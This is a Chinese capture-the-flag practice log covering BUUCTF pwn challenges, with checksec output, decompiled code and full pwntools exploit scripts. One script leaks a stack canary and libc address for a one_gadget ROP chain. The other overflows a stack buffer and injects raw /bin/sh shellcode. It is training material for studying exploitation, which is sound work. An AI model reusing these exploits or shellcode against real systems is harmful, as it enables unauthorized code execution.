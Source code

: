 # buu刷题记录（41-60题）

by Maple

## 61 others_babystack

***canary+libc***

`checksec`一下

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/61/pwn'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

NX保护，Canary保护，所以思路应该是泄露Canary，然后泄露libc，然后ROP

看下源码

```c
ssize_t sub_4008B9()
{
  sub_400826("--------");
  sub_400826("1.store");
  sub_400826("2.print");
  sub_400826("3.quit");
  sub_400826("--------");
  return sub_4007F7(">> ");
}
int sub_400841()
{
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x20uLL);
  if ( (int)read(0, s, 0x20uLL) <= 0 )
    exit(1);
  return atoi(s);
}
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int v3; // eax
  char s[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 v6; // [rsp+98h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(s, 0, 0x80uLL);
  while ( 1 )
  {
    sub_4008B9();
    v3 = sub_400841();
    switch ( v3 )
    {
      case 2:
        puts(s);                                // 回显Canary
        break;
      case 3:
        return 0LL;
      case 1:
        read(0, s, 0x100uLL);                   // 可以溢出
        break;
      default:
        sub_400826("invalid choice");
        break;
    }
    sub_400826(&unk_400AE7);
  }
}
```

是一个菜单，1对应输入，2对应输出（用puts）

所以canary截断泄露，libc用puts泄露，然后构造ROP

```python
from pwn import *
from struct import pack
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29212)

#--------Canary-------
payload = b'a'*(0x90-0x8)
p.recvuntil('>> ')
p.sendline('1')
p.sendline(payload)
p.recvuntil('>> ')
p.sendline('2')
p.recvuntil(b'a'*(0x90-0x8)+b'\n')
canary = u64(b'\x00'+p.recv(7))
log.info("canary:"+hex(canary))

#-------leak_libc------
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400908
pop_rdi = 0x0000000000400a93
p.sendlineafter('>> ','1')
payload1 = b'a'*0x88+p64(canary)+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(m
ain)
p.sendline(payload1)
p.sendlineafter('>> ','3')
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = puts_addr-libc.symbols['puts']
log.info("libc_base"+hex(libc_base))

#---------getshell-------
p.sendlineafter('>> ','1')
one_gadget = libc_base+0x45216
payload2 = b'b'*0x88+p64(canary)+b'b'*0x8+p64(one_gadget)
p.sendline(payload2)
p.sendlineafter('>> ','3')
p.interactive()
```

*这边用的one_gadget,正常的ROP也是没有问题的*

## 62 pwnable_start

***shellcode***

`checksec`一下

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/62/pwn'
    Arch:       i386-32-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX disabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

保护全关

ida看一下，汇编写的

```assembly
public _start
_start proc near
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
add     esp, 14h
retn
```

扔给ai分析一下，read那里可以读入60字节，但是栈只有20字节，可以溢出

所以我们可以先给esp指的位置泄露出来，然后把那个地方写入shellcode并执行
```python
from pwn import *
context.arch = 'i386'
#p = process('./pwn')
p = remote('node5.buuoj.cn',25719)
payload = b'a'*20+p32(0x08048087)# ida里可以看到，这里对应的是	mov		ecx,esp
p.recvuntil(b':')
p.send(payload)
leak = u32(p.recv(4))
shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
#shellcode = asm(shellcraft.sh())
payload2 = b'a'*20+p32(leak+20)+shellcode
p.send(payload2)
p.interactive()
```

可以在[这里](http://shell-storm.org/shellcode/index.html)找一些合适的shellcode

## 63 gyctf_2020_borrowstack

直接看[这篇](https://www.cnblogs.com/ZIKH26/articles/15817337.html)吧

## 64 hitcontraining_heapcreator

施工中

## 65